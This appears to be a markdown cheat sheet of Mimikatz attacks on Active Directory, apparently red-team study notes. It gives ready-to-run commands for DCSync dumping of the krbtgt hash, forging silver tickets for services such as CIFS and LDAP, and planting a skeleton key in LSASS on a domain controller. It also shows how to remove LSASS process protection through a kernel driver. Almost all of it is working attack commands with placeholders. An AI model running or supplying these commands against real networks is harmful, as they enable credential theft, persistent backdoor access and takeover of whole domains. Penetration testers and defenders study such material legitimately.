 
## DCSync

> DA is required
> Can run anywhere

> stealthy

```powershell
Mimikatz # lsadump::dcsync /user:<fqdn or netbios>\krbtgt
Invoke-Mimikatz ‘"lsadump::dcsync /user:<fqdn or netbios>\krbtgt" ’
```


## Silver Ticket

Forging a TGS

```powershell
Mimikatz # kerberos::golden /user:<user> /domain:<domain FQDN> /sid:<domain SID> /target:<target machine> 
   /service:<required service> /rc4:<hash> /ptt 
```

We can request services like:
```powershell
- HOST
- RPCSS
- WSMAN
- TERMSRV
- CIFS
- LDAP
- HTTP
```

## Skeleton Key

> patch a process of LSASS in the DC and with that we can access any user with a uniq password (mimikatz)

> required to be executed in the DC with a priv user

```powershell
Mimikatz # misc::skeleton
```

example usage:
```powershell
Invoke-Mimikatz -ScriptBlock ${Function:Invoke-Mimikatz} -Session $sess
Enter-PsSession -ComputerName <computer> -Credential <user fqdn> //password: mimikatz
```

Alternative to bypass protection of LSASS:

> Modifications on a kernel level is required, mimikatz must be on disk of DC machine

```powershell
Mimikatz# privilege::debug
Mimikatz# !+
Mimikatz# !processprotect /process:lsass.exe /remove
Mimikatz# misc::skeleton
Mimikatz# !-
```
